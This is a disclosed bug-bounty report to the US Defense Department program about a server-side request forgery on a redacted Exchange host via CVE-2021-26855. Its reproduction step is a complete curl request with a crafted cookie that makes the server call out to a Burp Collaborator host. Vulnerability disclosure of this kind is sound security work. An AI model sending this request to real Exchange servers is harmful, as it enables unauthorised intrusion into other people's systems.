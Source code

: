 # SSRF due to CVE-2021-26855 on ████████

## Report Details
- **Report ID**: 1119224
- **URL**: https://hackerone.com/reports/1119224
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-03-07T11:31:33.434Z
- **Disclosed**: 2021-03-24T20:53:21.655Z

## Reporter
- **Username**: spongebhav
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
There exists a Server Side Request Frogery (SSRF) on ***█████████*** due to ***CVE-2021-26855***

## References
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26855
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-26855

## Impact

Server Side Request Frogery

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-26855

## Steps to Reproduce
```
curl -i -s -k -X $'GET' \
    -H $'Host: ████' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.1; rv:86.0) Gecko/20100101 Firefox/86.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' \
    $'https://███/owa/auth/x.js'
```

Output:
█████████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
